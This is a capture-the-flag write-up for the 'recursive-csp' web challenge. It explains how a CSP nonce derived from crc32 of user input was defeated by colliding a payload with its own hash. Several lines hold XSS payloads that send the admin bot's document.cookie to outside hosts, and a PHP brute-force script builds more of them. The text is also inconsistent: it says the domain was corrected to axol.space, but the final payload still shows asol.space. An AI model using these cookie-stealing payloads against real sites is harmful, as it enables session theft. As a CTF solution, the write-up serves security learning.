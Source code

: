 # Recursive-csp

## Description

the nonce isn't random, so how hard could this be?

(the flag is in the admin bot's cookie)

- **Author** : strellic
- **Category** : Web
- **Points** : 115
- **Solves** : 178

## Solution

### Understanding the challenge

Here we get the source for `\?source` 

```php
<?php
  if (isset($_GET["source"])) highlight_file(__FILE__) && die();

  $name = "world";
  if (isset($_GET["name"]) && is_string($_GET["name"]) && strlen($_GET["name"]) < 128) {
    $name = $_GET["name"];
  }

  $nonce = hash("crc32b", $name);
  header("Content-Security-Policy: default-src 'none'; script-src 'nonce-$nonce' 'unsafe-inline'; base-uri 'none';");
?>
<!DOCTYPE html>
<html>
  <head>
    <title>recursive-csp</title>
  </head>
  <body>
    <h1>Hello, <?php echo $name ?>!</h1>
    <h3>Enter your name:</h3>
    <form method="GET">
      <input type="text" placeholder="name" name="name" />
      <input type="submit" />
    </form>
    <!-- /?source -->
  </body>
</html>
```

It's a simple XSS Challenge in PHP. The catch is that there is a [nonce](https://developer.mozilla.org/en-US/docs/Web/HTML/Global_attributes/nonce) that prevents us from getting XSS directly and the nonce is basically the [crc32](https://www.php.net/manual/en/function.crc32.php) hash of our payload. But our payload must contain the [nonce](https://developer.mozilla.org/en-US/docs/Web/HTML/Global_attributes/nonce)

Basically `We should have the crc32 hash of the WHOLE MESSAGE inside the MESSAGE`

### Trying the Bruteforce

For a while, we were trying to brute force the nonce, hoping it will be the same at least one time since the crc32 has only 8 bytes.

```php
<?php
for ($i = 0; $i <= 0xffffffff; $i++) {
  $x=sprintf("%08x", $i);
  $y='<script nonce="'.$x.'">window.location="https://webhook.site/a0a221c5-6a61-4ff6-a1f5-438ed5ce9403/?x="+document.cookie</script>';
  echo $y;

  $z=hash("crc32b", $y);

  if($z===$x){
    echo "found";
    exit();
  }

  echo "\n";
}
?>
```

But this never worked out :cry: 

We tried this so for so long and while it was running we searched for other ways.

### Trying the collider

So we searched for `crc32` collissions and got [this](https://github.com/fyxme/crc-32-hash-collider)

This is just a crc32 hash collider written in go. It will start with a String and append as many characters as `maxLen` would allow and try if the hash matches. So all that was left was for us to decide on a nonce and give its corresponding integer as the `target` in the code.

**Note: Here we had to use a domain as the payload can only contain 127 characters and if we use webhook url we won't have enough charcters left to bruteforce**

By running the code on 16 different laptops with 16 cores with 16 different nonces, we were able to collide it just in time.

`<script nonce="e6377dcb">window.location="http://asol.space?x="+document.cookie</script>000000000000000000000000000000000048io`

But we made one mistake in the domain to which the flag is sent. Where the domain was supposed to be `https://axol.space` I put `https://asol.space` :sob:

Now we had to put the correct domain and hash it again. This time it took even longer. It took so much time that we were just going to buy `https://asol.space`. But we collided that payload too and finally got the flag

`<script nonce="e6377dcb">window.location="http://asol.space?x="+document.cookie</script>0000000000hytza`

**Flag**: `dice{h0pe_that_d1dnt_take_too_l0ng}`